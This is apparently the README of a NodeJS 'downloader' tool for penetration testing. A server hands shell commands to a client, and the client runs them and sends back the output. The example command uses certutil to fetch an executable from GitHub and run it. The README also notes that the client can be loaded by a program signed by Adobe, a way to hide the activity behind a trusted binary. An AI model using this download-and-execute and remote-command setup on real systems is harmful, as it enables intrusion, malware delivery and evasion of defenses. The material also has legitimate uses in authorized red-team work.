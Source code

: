 # Nodejs-Downloader
An example of a downloader written in NodeJS.

Author:3gstudent

#### Usage:

1. Download the NodeJS:

https://nodejs.org/en/download/

You just need node.exe in the file.

2. Set the command sent to the client:

Edit the Server.js

eg.

`var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';`

3. Start the server

```
node.exe Server.js
```

When you use a browser to access it, it will return 404.

4. Start the client

```
node.exe Client.js
```

It will connect to the server and get the command, then execute the command and send the result again.

Client.js can be loaded by a program with a digital signature of Adobe Systems Incorporated.

![Alt text](https://github.com/3gstudent/NodeJS-Downloader/blob/master/1.png?raw=true)

Reference:

https://bbs.pediy.com/thread-249573.htm


More details:

《渗透测试中的Node.js》[Coming soon]

